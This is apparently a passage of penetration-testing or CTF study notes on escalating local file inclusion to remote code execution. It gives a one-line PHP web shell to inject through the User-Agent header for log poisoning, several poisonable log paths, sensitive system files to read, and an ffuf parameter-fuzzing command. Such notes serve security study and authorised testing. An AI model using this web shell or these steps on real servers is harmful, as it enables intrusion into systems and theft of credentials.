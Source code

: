 If The Above Works, Craft a *PHP Web Shell* & Enter It in the **User Agent Header**
```php
<?php system($_GET['cmd']);?>
```

![[Pasted image 20230403185818.png]]

Start ***Remote Code Execution*** With **&cmd=[command]**
![[Pasted image 20230403190006.png]]

Some Other Logs Where This Technique Will Work :-
-  `/var/log/vsftpd.log` ([FTP Log Poisoning](https://secnhack.in/ftp-log-poisoning-through-lfi/))
- `/var/log/auth.log` ([SSH Log Poisoning](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/))
-  `/var/log/mail` ([SMTP Log Poisoning](https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/))
- `/var/log/httpd-access.log` (FreeBSD Log Poisoning)

---
# LFI2RCE via phpinfo()
https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo


---
# Important Files to read
```sh
# This file gives the command line argument of the current process which is running (May conatin passwords in CTF)
/proc/self/cmdline

# Points to the current directory (traverse files in the cwd)
/proc/self/cwd

# Check which users are allowed to login via SSH
/etc/ssh/sshd_config

# User web session information
/var/lib/php/sessions/sess_<php session id>
```

---
# Automated Scanning
-  **Fuzzing Parameters**
```shell
ffuf -w /usr/share/secLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287


language                    [Status: xxx, Size: xxx, Words: xxx, Lines: xxx]
```
For a more precise scan, we can limit our scan to the *most popular LFI parameters* found on this [link](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters).
